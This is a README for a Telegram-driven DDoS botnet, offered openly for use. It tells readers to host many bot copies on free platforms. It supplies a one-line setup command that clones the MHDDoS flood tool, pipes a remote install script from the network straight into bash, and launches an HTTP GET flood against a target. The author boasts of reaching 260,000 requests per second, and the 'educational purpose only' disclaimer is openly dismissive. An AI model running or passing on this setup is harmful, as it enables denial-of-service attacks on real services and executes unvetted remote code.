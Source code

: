 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `

<br><br>

Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.


**In my Botnet I have actually 18 bots, I can go up to 260 000 requests /s
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
